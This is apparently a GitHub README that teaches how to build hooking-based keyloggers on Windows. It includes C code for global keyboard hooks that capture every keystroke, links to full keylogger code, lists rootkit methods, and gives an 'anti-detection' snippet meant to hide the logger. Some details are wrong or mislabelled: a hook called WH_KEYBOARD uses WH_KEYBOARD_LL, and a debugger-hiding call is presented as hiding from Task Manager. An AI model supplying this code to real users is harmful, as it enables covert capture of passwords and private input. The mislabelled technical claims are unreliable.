 # Hooking-Based Keyloggers

Hooking-based keyloggers intercept keyboard input at the OS level by injecting code into the message processing chain. 

## Core Concepts

### 1. Windows Message Processing
Windows uses a message queue system where:
- Keyboard events generate `WM_KEYDOWN`/`WM_KEYUP` messages
- Messages flow: Hardware → Kernel → User-space applications

### 2. Hooking Methods

#### a. WH_KEYBOARD Hook (Legacy) NO system-wide
```c
HHOOK g_hHook = NULL;   // HHOOK is a handle (pointer-like) to a hook instance in Windows.

// KeyboardProc is a callback function, meaning Windows will call it automatically whenever a keyboard event happens.
LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
    if (nCode >= 0) { // Ensures the hook procedure processes only valid hook events.
        if (wParam == WM_KEYDOWN) {

            KBDLLHOOKSTRUCT* pKey = (KBDLLHOOKSTRUCT*)lParam;  
            // This structure contains detailed information about the keyboard event, such as the key code, scan code, flags, etc.

            // typedef struct {
            //   DWORD     vkCode;      // Virtual key code
            //   DWORD     scanCode;    // Hardware scan code
            //   DWORD     flags;       // Extended key, injected, etc.
            //   DWORD     time;        // Timestamp
            //   ULONG_PTR dwExtraInfo; // Additional info
            // } KBDLLHOOKSTRUCT;

            printf("Key: 0x%X\n", pKey->vkCode);  
        }
    }
    return CallNextHookEx(g_hHook, nCode, wParam, lParam); // Returning the value from CallNextHookEx is important for proper hook behavior.
}

// SetHook() calls SetWindowsHookEx, registers your KeyboardProc function as a low-level keyboard hook.
// This tells Windows: When any keyboard event occurs, run KeyboardProc.
void SetHook() {
    g_hHook = SetWindowsHookEx(WH_KEYBOARD_LL, KeyboardProc, NULL, 0);

    // WH_KEYBOARD_LL: Hook type — low-level keyboard hook that works globally across all threads.
    // KeyboardProc: Pointer to the callback function handling key events.
    // NULL: Module handle for the DLL containing the hook procedure.
    // NULL means the hook procedure is in the current process (must be the case for WH_KEYBOARD_LL).
    // 0: Thread ID — zero means hook is for all threads globally.
    // The function returns a hook handle stored in g_hHook.
    // If it returns NULL, hook installation failed (you should check and handle errors).
}
```

click [here](./Legacy/) to see the Legacy keylogger code


#### Current Windows Restrictions (as of 2023)

- Secure Desktop:

   Low-level hooks blocked on login/password screens

- UI Automation:

   Requires SetProcessDpiAwarenessContext for proper functioning

- User Consent:

   Windows 10+ shows warning indicators for global hooks


global hooks (especially keyboard hooks) can be flagged because they’re often used in keyloggers and spyware.



---


#### b. WH_KEYBOARD_LL (Low-Level, Modern) system-wide

- Captures keyboard input globally, before it’s posted to any thread message queue.
- Works across processes
- Doesn't require DLL injection
- Works for all applications, even games, password fields, or UAC prompts (unless blocked by security).


```c
HHOOK g_hHook = NULL;

LRESULT CALLBACK LowLevelKeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
    if (nCode == HC_ACTION) {
        KBDLLHOOKSTRUCT* pKey = (KBDLLHOOKSTRUCT*)lParam;
        if (wParam == WM_KEYDOWN) {
            // Your logging logic here
        }
    }
    return CallNextHookEx(g_hHook, nCode, wParam, lParam);
}
```

click [here](./low-level/) to see the Low Level keylogger code



## Advanced Techniques

### 1. DLL Injection for System-Wide Hooking

click [here](../DLL-injection/) to learn

### 2. Direct Input Capture

click [here](../DLL-injection/) to learn



## Stealth Considerations

1. **Rootkit Techniques**:
   - DKOM (Direct Kernel Object Manipulation)
   - SSDT Hooking (Kernel-mode)

2. **Anti-Detection**:
```c
// Hide from Task Manager
typedef NTSTATUS(NTAPI* pNtSetInformationThread)(HANDLE, ULONG, PVOID, ULONG);
pNtSetInformationThread NtSIT = (pNtSetInformationThread)GetProcAddress(GetModuleHandle("ntdll"), "NtSetInformationThread");
if (NtSIT) {
    ULONG hide = 1;
    NtSIT(GetCurrentThread(), 0x11 /*ThreadHideFromDebugger*/, &hide, sizeof(hide));
}
```

## Modern Defenses

1. **PatchGuard** (x64 systems):
   - Blocks kernel hooking
   - Requires signed drivers

2. **Secure Input**:
   - Windows 10+ protected processes
   - Credential UI isolation

---

<br>


> **Note:**  
> When we talk about "system-wide" in the context of hooks like WH_KEYBOARD or WH_KEYBOARD_LL, we mean
> The hook receives keystrokes from every application on the system, not just from the program that installed the hook.  
> For example, if you hook Notepad, you'll also see keys typed in Chrome, Word, games, etc. — that’s system-wide.
> One lives in the process being hooked (KeyboardProc)
> One lives in your process only (LowLevelKeyboardProc)